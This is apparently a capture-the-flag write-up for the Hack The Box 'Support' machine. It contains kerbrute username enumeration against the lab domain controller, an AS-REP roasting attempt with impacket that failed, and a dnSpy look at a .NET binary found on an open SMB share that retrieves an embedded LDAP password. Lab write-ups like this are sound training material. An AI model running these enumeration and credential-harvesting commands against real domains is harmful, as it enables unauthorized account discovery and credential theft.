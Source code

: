 

## Keberos

```bash
./kerbrute_linux_amd64 userenum --dc 10.10.11.174 -d support.htb -o /home/kali/Downloads/HackTheBox/Support/kerbrute-user-enum /home/kali/Downloads/HackTheBox/Support/userlist

2024/06/03 16:38:39 >  [+] VALID USERNAME:       ford.victoria@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       stoll.rachelle@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       MANAGEMENT$@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       daughtler.mabel@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       cromwell.gerard@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       monroe.david@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       west.laura@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       bardot.mary@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       langley.lucy@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       raven.clifton@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       levine.leopoldo@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       thomas.raphael@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       support@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       smith.rosario@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       hernandez.stanley@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       wilson.shelby@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       anderson.damian@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       ldap@support.htb
2024/06/03 16:38:39 >  [+] VALID USERNAME:       DC$@support.htb
```

Tried checking for ASREPRoasting but this failed:

```bash
sudo python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py support.htb/ -dc-ip 10.10.11.174 -usersfile userlist -no-pass -request -outputfile kerberos-users-found
```

## UserInfo.exe - Static & Dynamic Analysis 

Found `UserInfo.exe.zip` on publicly exposed SMB share and copied it to my kali machine. Unzipping the file, I get an executable titled `UserInfo.exe`, which looks to be a .NET application.

```bash
UserInfo.exe: PE32 executable (console) Intel 80386 Mono/.Net assembly, for MS Windows, 3 sections
```

Copied the file to my FlareVM machine and opened it in `dnSpy` to reverse engineer it. Reviewing the code, I can see that to query User Information, the executable uses the LDAP protocol. 

```cs
public LdapQuery()
{
        string password = Protected.getPassword();
        this.entry = new DirectoryEntry("LDAP://support.htb", "support\\ldap", password);
        this.entry.AuthenticationType = AuthenticationTypes.Secure;
        this.ds = new DirectorySearcher(this.entry);
}
```

